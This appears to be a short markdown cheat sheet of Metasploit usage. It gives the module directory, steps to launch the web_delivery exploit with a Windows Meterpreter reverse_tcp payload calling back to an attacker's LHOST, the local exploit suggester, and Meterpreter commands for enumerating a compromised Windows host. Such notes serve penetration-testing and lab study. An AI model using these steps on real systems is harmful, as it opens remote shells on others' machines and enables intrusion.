 # metasploit

## where all modules are located:

```
/usr/share/metasploit-framework/modules
```

## meterpreter

```bash
msfconsole
```

```
use exploit/multi/script/web_delivery
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 2
```

```
set LHOST eth0
```

```
run
```

## meterpreter cool stuff

```
post/multi/recon/local_exploit_suggester
```

## enumeration with metasploit

* `sysinfo` - get system information
* `getuid` - get current user that shell is living in
* `ipconfig` - view IP addresses
* `arp` - view ARP cache
* `run post/windows/gather/enum_services` - view running services
* `run post/windows/gather/enum_applications` - view installed applications
* `run post/windows/gather/enum_domains` - view domains (might crash)
* `route`

